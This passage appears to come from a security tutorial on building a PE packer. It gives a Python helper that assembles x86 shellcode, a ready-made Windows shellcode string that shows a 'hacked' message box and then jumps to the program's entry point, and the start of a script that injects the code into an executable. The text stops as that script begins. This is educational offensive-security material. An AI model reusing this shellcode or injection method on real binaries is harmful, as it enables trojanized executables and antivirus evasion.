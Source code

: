 ```
Since we are testing the "packer" to see if it can hide malicious code, let's start by creating a payload in the form of a shellcode that can help us to execute something. Let's try to pop up a window with a message. For this, we will create the shellcode in a separate file to just print it and copied into our payload. You can obviously use something to generate the payload. In my case, I will use a python script to compile the instructions. There's no room on this post to properly explain shellcode, you could also create compiled code and use it, but this is something to make it easy also. Shellcoding is always a good exercise. You can use the shellcode from this post or try one yourself.
*https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/*

"`python
import struct
from keystone import *
import sys
from capstone import *

code = (
'''  Write assembly instruction here in strings, as the example:
"mov eax, edx     ;"
"pop eax           ;"
'''
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)

opcodes = ks.asm(code)

sh = b""
for e in opcodes[0]:
    sh += struct.pack("B",e)

shellcode = bytearray(sh)

md = Cs(CS_ARCH_X86, CS_MODE_32)
for i in md.disasm(shellcode, 0x0):
    print("0x%x:\t%s\t%s\t%s" %  (i.address, i.bytes.hex(), i.mnemonic, i.op_str))

total_shellcode = ''.join("\\x%02x" % i for i in shellcode)
print("\nlenght of the shellcode = %d bytes\n" % len(total_shellcode) )
print(f'"{total_shellcode}"')
```
We can use the code above to create the shellcode. As I mentioned, I will not provide details on the shellcode creation. You can use this base script to create yours or use the raw bytes used in this post. They are Position Independent. It should work on your code. This is the generated shellcode you can use if you don't want to code it:

"`python
"\x60\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\x55\x14\x89\xc3\x68\xa8\xa2\x4d\xbc\xff\x55\x04\x89\x45\x20\x31\xc0\x66\x05\x65\x64\x50\x68\x68\x61\x63\x6b\x89\xe2\x31\xc0\x50\x68\x68\x61\x63\x6b\x89\xe7\x50\x52\x57\x50\xff\x55\x20\x31\xc0\x05\xe0\x12\x40\x00\xff\xe0"
```
The created shellcode will pop a Message Box with the word "hacked" and then will redirect execution to the entry point. Now, let's upgrade our python script to write these changes to the "python_packed.exe".

"`python
#!/usr/bin/python3
import sys
```
